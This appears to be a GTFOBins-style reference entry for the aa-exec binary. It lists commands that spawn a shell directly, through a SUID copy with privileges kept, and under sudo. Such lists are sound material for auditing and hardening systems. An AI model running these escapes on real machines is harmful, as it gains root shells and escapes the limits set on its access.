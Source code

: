 ```yaml
---
functions:
  shell:
    - code: aa-exec /bin/sh
  suid:
    - code: ./aa-exec /bin/sh -p
  sudo:
    - code: sudo aa-exec /bin/sh
---
```

